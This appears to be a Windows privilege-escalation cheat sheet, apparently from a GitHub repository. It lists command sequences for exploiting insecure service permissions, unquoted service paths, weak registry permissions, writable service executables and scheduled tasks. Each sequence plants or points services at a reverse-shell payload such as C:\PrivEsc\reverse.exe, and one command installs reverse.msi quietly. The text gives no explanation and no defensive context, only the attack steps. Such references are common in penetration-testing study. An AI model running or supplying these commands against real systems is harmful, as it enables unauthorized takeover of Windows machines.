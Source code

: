 ```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi


# Local Services
netstat -ano


# Insecure Service Permissions
wmic service get name,pathname,displayname,startmode (Powershell) OR 
sc query state= all (CMD)
accesschk.exe /accepteula -uwcqv <username> <service name>
sc qc <service name>
sc config <service name> binpath= "\"C:\PrivEsc\reverse.exe\""
net stop <service name>
net start <service name>


# Unquoted Service Path
wmic service get name,pathname,displayname,startmode (Powershell) OR 
sc query state= all (CMD)
sc qc <service name>
accesschk.exe /accepteula -uwdq <service path>
copy C:\PrivEsc\reverse.exe <location to put binary>
net stop <service name>
net start <service name>


# Weak Registry Permission
wmic service get name,pathname,displayname,startmode (Powershell) OR 
sc query state= all (CMD)
sc qc <service name>
accesschk.exe /accepteula -uvwqk <reg value> HKLM\System\CurrentControlSet\Services\regsvc
reg add <reg value> /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
net stop <service name>
net start <service name>


# Insecure Service Executables
wmic service get name,pathname,displayname,startmode (Powershell) OR 
sc query state= all (CMD)
sc qc <service name>
accesschk.exe /accepteula -quvw <service binary location>
copy C:\PrivEsc\reverse.exe <service binary location> /Y
net stop <service name>
net start <service name>


# Scheduled Tasks
tasklist /V 
Get-ScheduledTask
schtasks /query /fo LIST /v
schtasks /query /fo LIST /v | findstr /C:"TaskName" /C:"Run As User"
icacls <task location>


# Binary Overwrite or Missing Binary
schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment"


# Missing Binary
schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment" 
```